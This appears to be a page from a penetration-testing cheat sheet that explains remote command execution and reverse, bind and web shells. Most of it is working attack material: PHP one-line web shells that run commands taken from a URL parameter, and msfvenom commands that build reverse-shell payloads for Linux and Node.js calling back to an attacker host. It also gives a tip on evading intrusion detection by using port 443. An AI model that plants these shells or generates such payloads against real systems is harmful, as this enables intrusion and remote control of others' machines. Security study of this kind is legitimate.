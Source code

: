 # Shell

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution
</div><div>

The script leading to a RCE could be a

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## webshell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️compact one-line webshell

```php
<?=system($_GET["cmd"]." &2>1" ?? "whoami");?>
```

* ➡️simple webshell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo system($_GET["cmd"]." &2>1" ?? "whoami");
?>
```

</div><div>

* ➡️simple webshell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec ('w hoami  2>&1', $output)."<br>";
echo implode(' ', $output);
?>
```

* ➡️simple webshell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
<?php
echo passthru($_GET["cmd"]." &2>1" ?? "whoami");
?>
```
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>